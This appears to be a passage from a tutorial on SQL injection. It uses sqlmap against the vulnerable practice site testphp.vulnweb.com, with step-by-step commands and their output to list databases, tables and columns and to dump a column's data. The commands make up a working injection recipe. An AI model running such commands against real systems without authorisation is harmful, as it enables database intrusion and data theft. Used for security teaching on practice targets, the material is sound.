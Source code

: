 The most important thing is that it identified at least one injection point. This means, that the website has an SQL injection vulnerability that might be exploitable. The following command displays all the databases we can access using this vulnerability.
```{data-filename="Command Prompt"}
python sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 -dbs
```
In the result, you can find the names of the databases:
```{data-filename="Command Prompt"}
[00:00:00] [INFO] fetching database names
available databases [2]:
[*] acuart
[*] information_schema
```
Now, you can keep on going until you find the actual data inside of a table. The following command displays all the tables inside of the "acuart" database.
```{data-filename="Command Prompt"}
python sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -tables
```
In the result, you can find the names of the tables:
```{data-filename="Command Prompt"}
[00:00:00] [INFO] fetching tables for database: 'acuart'
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+
```
The following command displays all the columns inside of the "artists" table.
```{data-filename="Command Prompt"}
python sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T artists -columns
```
In the result, you can find the names of the columns:
```{data-filename="Command Prompt"}
[00:00:00] [INFO] fetching columns for table 'artists' in database 'acuart'
Database: acuart
Table: artists
[3 columns]
+-----------+-------------+
| Column    | Type        |
+-----------+-------------+
| adesc     | text        |
| aname     | varchar(50) |
| artist_id | int         |
+-----------+-------------+
```
Finally, the following command displays all the data inside of the "aname" column.
```{data-filename="Command Prompt"}
python sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T artists -C aname --dump
```
In the result, you can find the data in the column:
```{data-filename="Command Prompt"}
[00:00:00] [INFO] fetching entries of column(s) 'aname' for table 'artists' in database 'acuart'
Database: acuart
Table: artists
[3 entries]
+---------+
| aname   |
+---------+
| r4w8173 |
```